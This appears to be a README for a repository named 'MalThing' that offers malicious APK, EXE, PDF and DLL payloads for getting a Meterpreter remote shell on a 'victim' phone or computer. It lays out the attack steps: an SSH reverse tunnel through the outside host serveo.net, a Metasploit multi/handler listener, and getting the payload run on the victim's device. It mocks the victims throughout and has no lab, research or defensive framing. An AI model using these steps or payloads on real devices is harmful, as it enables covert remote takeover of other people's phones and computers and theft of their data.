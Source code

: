 MalThing

A bunch of malicius thing to get a meterpreter shell

how to control this MalThing to create a METERPRETER SHELL!!!

MAKE SURE YOU HAVE AN INTERNET ACCESS!!!

1.install open ssh with "apt-get install openssh"

2.type "ssh -R 3249:localhost:3249 serveo.net"

3.open msfconsole run listener with multi/handler setup and with your localhost and port=3249

3.install and run the apk on your victime phone.....make sure your victim phone had a internet access(FOR THE APK FILE)

3.Run it on the victim computer.....make sure your victim computer had a internet access(FOR THE MalEXE,MalMS,MalPDF)

4.and get a METERPRETER SHELL!!!!!HAHAHAHAHA

PS:For the dll....search for how to inject dll on process or watch this https://www.youtube.com/watch?v=yKoD5Oy8CKQ&t=338s